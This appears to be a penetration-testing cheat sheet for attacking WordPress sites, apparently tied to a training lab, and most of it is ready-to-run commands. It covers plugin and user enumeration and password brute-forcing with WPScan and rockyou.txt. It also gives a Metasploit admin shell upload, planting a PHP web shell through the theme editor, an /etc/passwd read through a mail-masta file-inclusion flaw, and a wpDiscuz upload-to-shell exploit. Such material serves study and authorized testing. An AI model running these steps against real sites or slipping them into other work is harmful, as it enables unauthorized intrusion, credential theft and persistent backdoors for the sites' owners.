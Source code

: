 ### General Information :
```bash
# Identify Theme:
curl -s http://target.com | grep themes
# Look for theme name (e.g., business-gravity, transport-gravity)

# Identify Plugins:
curl -s http://target.com | grep plugins
# Look for known plugins (e.g., contact-form-7, mail-masta, wpdiscuz) and version in the URL.
# Sometimes you can access: http://target.com/wp-content/plugins/plugin-name/readme.txt
```

## WPscan

```bash
# Enumerate users on the WordPress site at http://10.10.10.10
wpscan --url http://10.10.10.10 --enumerate u

# Enumerate vulnerable plugins on example.com with mixed detection method
# Using a valid WPScan API token for vulnerability database access
wpscan --url example.com -e vp --plugins-detection mixed --api-token API_TOKEN

# Enumerate users (-e u) on example.com and attempt password brute-forcing
# Using the rockyou.txt password list for cracking
wpscan --url example.com -e u --passwords /usr/share/wordlists/rockyou.txt

# Brute-force login on example.com for user 'admin' (-U admin) with rockyou.txt passwords (-P)
wpscan --url example.com -U admin -P /usr/share/wordlists/rockyou.txt

# Get API Key (free): Register at https://wpvulndb.com Use it with --api-token
wpscan --url http://target.com --enumerate --api-token YOUR_TOKEN
```

## Metasploit Shell Upload
```bash
use exploit/unix/webapp/wp_admin_shell_upload
set username john
set password firebird1
set lhost <your_ip>
set rhost <target_ip>
set vhost blog.inlanefreight.local
exploit
```

##  Code Execution via Theme Editor (RCE)
- Log in to WordPress
- Go to Appearance > Theme Editor
- Select an inactive theme (e.g., Twenty Nineteen)
- Edit the 404.php file
- Add this code:
```bash
system($_GET[0]);
```
This will let us run system commands like id using a GET request.

- Visit this URL to test:

```bash
http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```


## Vulnerable Plugins

### `mail-masta`
This plugin has a bug that lets us read any file on the server.
```bash
curl http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
✅ You can read the /etc/passwd file, which lists system users.

### `wpDiscuz` (Version 7.0.4)
This plugin allows file uploads. But a bug lets us upload a PHP backdoor instead of just images.
```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```
If successful, it uploads a PHP shell to:
```bash
/wp-content/uploads/2021/08/<random_name>.php

# You can run commands using:
curl http://blog.inlanefreight.local/wp-content/uploads/2021/08/<filename>.php?cmd=id
```
